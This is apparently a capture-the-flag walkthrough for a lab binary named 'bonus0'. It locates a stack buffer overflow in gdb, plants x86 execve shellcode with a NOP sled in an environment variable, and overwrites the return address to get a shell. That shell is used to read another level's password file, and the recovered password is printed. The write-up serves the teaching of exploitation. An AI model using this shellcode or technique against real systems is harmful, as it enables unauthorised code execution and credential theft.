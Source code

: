 # Bonus 00 Walkthrough

## Binary analysis

We can exploit this by placing shellcode in an environment variable and overflowing the buffer to redirect execution to this shellcode.

We noticed that when giving to stdin a lot of A on the first input, and a lot of B on the second input, we can overflow the buffer and overwrite the return address.

```
(gdb) r < <(sleep 1; python3 -c 'print(b"A"*100)'; sleep 1; python3 -c 'print(b"B" * 100)')
(gdb) p/x $eip
$2 = 0x42424242
```

With a cyclic pattern, we find the offset to be 13 bytes.

## Exploitation

We export a shellcode in an environment variable:
```bash
export SC=$(python -c 'print(b"\x90"*5000 + b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")')
```

We find the address of the shellcode in the environment (using gdb and `x/2000s (char **)environ`).
```
(gdb) x/2000s (char **)environ
```

We overflow the buffer and overwrite the return address with the address of the shellcode:
```bash
(python -c 'print(b"A"*20)'; python -c 'print(b"B"*9+b"\xbf\xff\xeb\xff"[::-1]+b"C"*42)'; cat -) | ./bonus0
```
Here an offset of 13 didn't work so we tried 13 +/- 4 bytes and we found 9 worked.

## Commands used

```
(python -c 'print(b"A"*20)'; python -c 'print(b"B"*9+b"\xbf\xff\xeb\xff"[::-1]+b"C"*42)'; cat -) | ./bonus0
cat /home/user/bonus1/.pass
```

## Result

After running the exploit, we get a shell as bonus1 and can read the password:

```
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```
